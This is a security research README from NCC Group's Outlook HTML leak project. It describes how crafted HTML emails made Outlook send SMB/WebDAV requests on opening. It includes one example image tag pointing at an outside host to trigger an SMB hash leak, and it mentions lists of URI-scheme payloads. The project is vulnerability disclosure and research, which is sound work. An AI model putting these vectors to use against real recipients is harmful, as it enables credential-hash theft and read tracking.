 # The Outlook HTML Leak Test Project!

## What's in "./Schemes-List.xlsx"?

List of URI schemes that might work in Windows. These schemes/protocols can be useful in similar research to find new vulnerabilities or to bypass current protections.
It is interesting that opening this file using MS Office takes longer than usual that may suggest Excel is doing something on some of them. This is a great sign to find bugs/features!

## What's in "./OutlookMailApp/OutlookMailApp/resources/template.html"?

List of HTML tags that might send requests to other resources automatically or by user interaction.
This file has been generated based on the following sources:
* https://github.com/cure53/HTTPLeaks
* https://stackoverflow.com/questions/2725156/complete-list-of-html-tag-attributes-which-have-a-url-value


## Research and the Tales:

While I was working on an assessment, I received an HTML email in Outlook 2010 that contained an image tag similar to:
```
<img src="//example.com/test/image.jpg" >
```

I could see that Outlook was searching for something after opening that email and it took longer than usual to fully open it. I quickly realised that Outlook actually used the URL as `\\example.com\test\image.jpg` and sent `example.com` a SMB request.

Although it did not load the image even when the provided SMB path was valid, it could send my SMB hash to an arbitrary location. This attack did not work on Outlook 2016, however it made me start a small research project in trying different HTML tags that accept URIs with different URI schemes and special payloads.

I managed to test a list of known URI schemes with different targets by designing a quick (and dirty) ASP.NET application that used ASPOSE.Email (https://downloads.aspose.com/email/net) and Microsoft Office Interop libraries. This application generates readonly MSG files similar to the received or sent emails in Outlook. 
The cure53 HTTPLeaks project (https://github.com/cure53/HTTPLeaks) with minor changes was used as the HTML template to generate the emails. The dirty C# code, URI Schemes, formulas, and the HTML template used in this research can be found on this repository.

In order to reduce complications, Wireshark and Process Monitor of Sysinternals Suite were used to detect remote and local filesystem calls.

## Discovered Vulnerability in Outlook

Outlook sent external SMB/WebDAV requests upon opening a crafted HTML email. This could be abused to hijack a victim’s SMB hash or to determine if the recipient had viewed a message. 
This issue was exploited using Outlook default settings that blocked loading external resources such as image files.
These requests were sent immediately after opening an email. When SMB port was blocked, a WebDAV request on port 80 was sent. F
or more details and the fix, please refer to https://www.nccgroup.trust/uk/our-research/

### Identified payloads:

#### Remote Calls:
Although the `\\` pattern was blocked by Outlook, a number of other patterns and URI schemes were found that forced Outlook to send requests to remote servers.
The following table shows the identified vectors:

![Outlook Remote Calls](https://github.com/nccgroup/OutlookLeakTest/blob/master/images/remotecalls.png?raw=true)

#### Local Filesystem Calls:
The following URI schemes could also be used target the local filesystem that might be useful:

![Outlook Local Filesystem Calls](https://github.com/nccgroup/OutlookLeakTest/blob/master/images/localfscalls.png?raw=true)


## Copyright and License
OutlookLeakTest project is copyright 2018, NCC Group, and licensed under the Apache license (see LICENSE).